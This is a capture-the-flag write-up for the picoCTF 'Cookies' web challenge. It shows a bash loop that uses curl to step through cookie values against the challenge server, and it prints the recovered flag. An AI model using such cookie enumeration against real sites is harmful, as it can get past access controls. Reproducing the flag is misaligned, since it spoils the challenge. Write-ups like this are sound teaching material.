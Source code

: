 # Cookies

## Overview
Points: 40 | Category: Web Exploitation

## Description
> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:21485/

## Step 1
Analysing the website it's possible to see that the cookie is set to 'name=-1', so I made a script try out different values and find the word pico inside the request.
``` Bash 
#! /bin/bash

for number in {0..20}
do
	echo "Cookie: name=$number"
	curl -sL http://mercury.picoctf.net:21485/ -H "Cookie: name=$number" | grep pico
done
```

## Step 2
If we set 'Cookie: name=18', it gives the flag. 
``` Html
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
```

## Flag
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}